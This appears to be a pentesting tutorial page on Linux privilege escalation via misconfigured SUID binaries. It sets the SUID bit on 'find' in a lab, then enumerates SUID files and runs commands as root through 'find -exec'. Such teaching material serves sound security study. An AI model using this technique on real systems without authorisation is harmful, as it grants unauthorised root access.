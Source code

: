 ```yaml
---
title: "Misconfigured SUID Binaries"
layout: single
permalink: /library/pentesting/linux-vulnerabilities/misconfigured-suid-binaries/
author_profile: false
classes: wide
header:
    image: _pages/library/pentesting/linux-vulnerabilities/linux.jpg
sidebar:
    nav: "linux-vulnerabilities"
---
```


## Introduction

The Set User ID (SUID) permission is a critical feature in Linux that empowers users to execute a file with the privileges of a specified user, typically the file's owner. When binaries or commands are configured with the SUID bit, they run with elevated privileges, allowing users to perform actions that would otherwise be restricted. This becomes particularly significant when accessing a system as a non-root user, as it opens avenues for privilege escalation.

The discovery of binaries with the SUID bit set can present opportunities for non-root users to execute these files with root-level permissions. Certain well-known Linux and Unix executables, when configured with the SUID bit, can become powerful tools for privilege escalation. Some notable examples include Bash, Cat, cp, echo, find, Less, More, Nano, Nmap, Vim, and others. Leveraging these binaries, users can escalate their privileges, gaining access to sensitive system resources and functionalities reserved for the root user.

On this instance, we will be using the **'find'** binary for privilege escalation.

## Step-by-Step Guide

### **Setup**

#### 1. Create a user that should not be a sudo group user

```bash
┌──(root㉿workstation)-[~]
└─> sudo adduser notroot
```
![Add 'notroot' user](/_pages/library/pentesting/linux-vulnerabilities/misconfigured-suid-binaries/add_notroot_user.png)

#### 2. Give SUID permission to 'find' command

```bash
┌──(root㉿workstation)-[~]
└─> chmod u+s /usr/bin/find
```
![Add SUID permission to 'notroot' user](/_pages/library/pentesting/linux-vulnerabilities/misconfigured-suid-binaries/add_suid_permission.png)

### **Exploitation**

#### 1. Switch or Login as 'notroot'

```bash
┌──(notroot㉿workstation)-[~]
└─>
```

![Login as 'notroot' user](/_pages/library/pentesting/linux-vulnerabilities/misconfigured-suid-binaries/login_as_notroot.png)

#### 2. Enumerate all binaries having SUID permission

This command is used to enumerate and check all binaries with SUID permissions: *find / -perm -u=s -type f 2>/dev/null*

```bash
┌──(notroot㉿workstation)-[~]
└─> find / -perm -u=s -type f 2>/dev/null
```
![Enumerate all binaries with SUID permisssions](/_pages/library/pentesting/linux-vulnerabilities/misconfigured-suid-binaries/enumerate_suid_permissions.png)

Above result shows 'find' command has SUID bit enabled.

#### 3. Exploit: Execute any command within 'find' command

```bash
┌──(notroot㉿workstation)-[~]
└─> touch <file_name>

┌──(notroot㉿workstation)-[~]
└─> find <file_name> -exec <command> \;
```
![Execute any command](/_pages/library/pentesting/linux-vulnerabilities/misconfigured-suid-binaries/execute_any_command.png)



## Video Demonstration

{% include video id="cetPsoJYirA" provider="youtube" %}

## Reference
https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
